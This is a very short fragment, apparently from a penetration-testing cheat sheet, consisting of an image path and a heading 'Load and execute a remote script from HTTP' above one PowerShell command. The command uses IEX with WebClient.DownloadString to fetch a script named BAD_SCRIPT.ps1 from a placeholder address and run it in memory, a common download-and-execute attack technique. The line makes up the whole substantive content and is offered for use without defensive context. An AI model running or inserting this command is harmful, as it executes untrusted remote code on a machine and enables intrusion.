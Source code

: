 # Load and execute a remote script from HTTP
```powershell
IEX ((New-Object System.Net.WebClient).DownloadString("http://10.X.X.X/BAD_SCRIPT.ps1"))
